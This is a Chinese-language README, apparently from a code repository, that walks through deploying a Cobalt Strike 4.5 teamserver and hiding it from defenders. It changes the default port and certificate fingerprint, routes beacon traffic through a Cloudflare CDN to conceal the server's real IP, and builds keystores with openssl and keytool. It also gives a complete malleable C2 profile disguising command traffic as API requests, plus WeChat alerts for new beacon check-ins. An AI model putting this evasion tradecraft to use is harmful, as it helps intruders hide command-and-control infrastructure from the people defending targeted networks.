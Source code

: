 # 0x01 CS服务端启动
将CS4.5文件夹上传到VPS上，执行如下命令即可启动，需要注意，IP地址不能是0.0.0.0
```
./teamserver 192.168.0.125 password
```

# 0x02 CS服务端特征去除
### 01 修改teamserver默认端口
打开文件teamserver，将默认的50050端口改为其他端口
### 02 修改teamserver默认指纹信息
正常情况使用nmap扫描时可看到此特征，如下图  
![image](./pic/02.png)  
阅读代码可知，当没有证书的时候会创建带有cobalt strike信息的证书，有证书的话，则会使用证书中的信息，下面我们会创建自己的证书，就不需要修改teamserver中的cobalt strike信息

# 0x03 CS隐藏真实IP
思路：基于CDN隐藏真实IP
### 步骤1 注册一个域名
有的文章提到使用www.freenom.com平台进行注册，我这边测试从freenom注册免费域名挺费劲的，试了几次都没成功，建议从namesilo购买一个域名，选一个不那么大众化的，每年0.99$
### 步骤2 cdn平台配置dns解析
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的”CDN平台配置DNS解析”部分，地址：https://xz.aliyun.com/t/11099#toc-2
```
添加DNS记录时如下
Name：ybdt，IPv4 address：服务器 IP
```
### 步骤3 CDN平台创建证书
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的”CDN平台创建证书”部分，地址：https://xz.aliyun.com/t/11099#toc-3
```
要注意，创建时要保存证书和私钥，不然后面没法再看到私钥
```
### 步骤4 CDN平台禁用缓存
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的”CDN平台禁用缓存”部分，地址：https://xz.aliyun.com/t/11099#toc-4
### 步骤5 生成CS证书
进入vps中的cs文件夹中，创建两个文件：server.pem（文件中贴入上面的源证书）和server.key（文件中贴入上面的私钥），然后生成新的cobaltstrike证书，如果原先的cobaltstrike文件夹内有默认的.store证书，需要先删除掉默认的
```
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:123456

这里是利用pem和key文件创建新的cert证书，这里的pass密码需要修改，改为复杂的密码，不要使用123456
```
借助生成的cert证书，通过以下命令生成store证书
```
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias cloudflare_cert
```
### 步骤6 创建profile文件
```
set sleeptime "3000";

https-certificate {
    set keystore "cfcert.store";
    set password "123456";
}

http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "ybdt.test.com";}
    server {
        output{
            print;
        }
    }
}

http-get {
    set uri "/api/3";
    client {
        header "Host" "ybdt.test.com";
        metadata {
            base64;
            header "Cookie";
        }
    }
    server {
        output {
            print;
        }
    }
}

http-post {
    set uri "/api/4";
    client {
        header "Host" "ybdt.test.com";
        id {
            uri-append;
        }
        output {
            print;
        }
    }
    server {
        output {
            print;
        }
    }
}

```
### 步骤7 创建监听器
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的”启动teamserver”部分，地址：https://xz.aliyun.com/t/11099#toc-9
```
需要注意，CloudFlare CDN免费支持的端口如下
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443
```
### 步骤8 上线测试
上线后，我这边wireshark抓包，抓到的ip查询后发现是微软云（可能是cloudflare的节点在微软云上，或其他原因），如下图  
![image](./pic/01.png)
```
注意，vps的防火墙要打开，我就在这卡了一会
```

# 0x04 CS上线微信提醒
此处需要图文说明，参见文章[https://xz.aliyun.com/t/10698](https://xz.aliyun.com/t/10698)中的”微信单人提醒”部分，地址：https://xz.aliyun.com/t/11099#toc-9

不过有2处需要修改：  
01、vps会提示需要转发x11请求，解决办法：启动时需要加一个参数-Djava.awt.headless=true，修改后如下
```
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Djava.awt.headless=true -classpath ./cobaltstrike.jar aggressor.headless.Start $*
```
02、注释掉一处安全提醒
```
This can be done by editing the accessibility.properties file for OpenJDK:
sudo vim /etc/java-8-openjdk/accessibility.properties
Comment out the following line:
assistive_technologies=org.GNOME.Accessibility.AtkWrapper
```

# 参考链接
```
https://xz.aliyun.com/t/11099
https://xz.aliyun.com/t/10698
https://github.com/microsoft/vscode-arduino/issues/644
```